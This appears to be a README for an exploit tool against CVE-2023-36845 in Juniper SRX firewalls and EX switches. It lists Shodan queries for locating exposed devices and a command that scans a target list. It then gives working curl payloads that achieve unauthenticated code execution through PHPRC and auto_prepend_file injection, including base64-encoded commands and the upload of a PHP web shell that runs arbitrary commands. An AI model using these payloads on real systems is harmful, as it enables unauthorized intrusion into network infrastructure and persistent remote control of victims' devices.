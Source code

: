 # CVE-2023-36845

![](https://img.shields.io/static/v1?label=Product&message=Juniper%20Web%20Device%20Manager&color=blue)
![](https://img.shields.io/static/v1?label=Version&message=All%20versions%20prior%20to%2021.4R3-S5&color=brighgreen)
![](https://img.shields.io/static/v1?label=Vulnerability&message=Remote%20Code%20Execution&color=red)

## Description

CVE-2023-36845 represents a notable PHP environment variable manipulation vulnerability that impacts Juniper SRX firewalls and EX switches. While Juniper has categorized this vulnerability as being of medium severity, in this article, we will elucidate how this singular vulnerability can be leveraged for remote, unauthenticated code execution.

## Shodan dork:
```
title:"Juniper Web Device Manager"
```

```
title:"Juniper" http.favicon.hash:2141724739
```

## Usage
Detection
```
python3 CVE-2023-36845.py -f targets.txt -o output.txt
```

## RCE 

### Option 1 
Utilizing any protocol wrapper in conjunction with `auto_prepend_file` is feasible. The most suitable choice for this operation is the `data://` protocol, which allows inline provision of the "secondary file". Here's a sophisticated representation of this exploit, executing the embedded `<? phpinfo(); ?>` within the `data://` scheme:

```
curl "http://target.tld/?PHPRC=/dev/fd/0" --data-binary $'allow_url_include=1\nauto_prepend_file="data://text/plain;base64,PD8KICAgcGhwaW5mbygpOwo/Pg=="'
```
Execute `whoami` command

`<?php shell_exec('whoami'); ?>`
```
curl "http://target.tld/?PHPRC=/dev/fd/0" --data-binary $'allow_url_include=1\nauto_prepend_file="data://text/plain;base64,PD9waHAgc2hlbGxfZXhlYygnd2hvYW1pJyk7ID8+Cg=="'
```

### Option 2
Upload a file

`<?php if(isset($_REQUEST[cmd])){ echo "<pre>"; $cmd = ($_REQUEST[cmd]); system($cmd); echo "</pre>"; die; }?>`

```
$ curl http://target.tld/webauth_operation.php -d 'rs=do_upload&rsargs[]=[{"fileName": "shell.php", "fileData": ",PD9waHAgaWYoaXNzZXQoJF9SRVFVRVNUW2NtZF0pKXsgZWNobyAiPHByZT4iOyAkY21kID0gKCRfUkVRVUVTVFtjbWRdKTsgc3lzdGVtKCRjbWQpOyBlY2hvICI8L3ByZT4iOyBkaWU7IH0/Pgo=
", "csize": 110}]'
```

## Parameters 

Parameter | Description | Type
------------ | ------------- | -------------
--file / -f | Input targets file | File
-o | Output file | File

